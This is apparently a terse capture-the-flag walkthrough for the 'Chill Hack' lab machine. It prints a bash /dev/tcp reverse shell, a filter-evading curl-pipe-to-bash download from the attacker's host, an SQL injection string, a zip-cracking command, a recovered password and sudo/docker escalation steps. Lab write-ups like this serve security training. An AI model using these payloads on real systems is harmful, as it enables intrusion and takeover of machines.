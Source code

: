 # Chill Hack
```
EXPORT IP=10.10.163.188
```

# PART.1 Shell Connection && USER Escalation
## SCAN
```
21 FTP
22 SSH
80 HTTP
```

## Web Enumeration
```
/contact.php (Status: 200)
/images (Status: 301)
/css (Status: 301)
/style.css (Status: 200)
/js (Status: 301)
/fonts (Status: 301)
/secret (Status: 301)
```

## bypass string (/secrect)
```
[OS Command Bypass Technic]
https://medium.com/picus-security/how-to-bypass-wafs-for-os-command-injection-2c5dd4e6a52b

[shell.sh]
bash -i >& /dev/tcp/10.9.26.67/4444 0>&1

[OS Command Bypass Technic && REVERSE SHELL PAYLOAD]
curl 10.9.26.67:8000/shell.sh |ba\sh
```

## Stabilize Shell
```
python3 -c "import pty; pty.spawn('/bin/bash)"
CTRL ^Z
stty raw -echo;fg
stty rows 29 columns 126
export TERM=screen
```

## USER FLAG
```
1. sudo -l
2. sudo -u apaar /home/apaar/.helpline.sh
3. input the "/bin/bash"
cat local.txt ----> user.txt 1
```

# PART.2 Privilige Escalation

## SSH Turneling
```
sudo ssh -L 8888:127.0.0.1:9001 -i apaar_rsa apaar@EXPORT_IP
```

## SQL injecting
```
1. access 8888 on local machine
2. ' or 1=1 #

3. Image Download && Brute FOrcing
fcrackzip -u -D -p '{rockyou_path}' /backup.zip

4. anurodh:!d0ntKn0wmYp@ssw0rd

```

## Docker Root
```
GTFObins : docker 'sudo'
```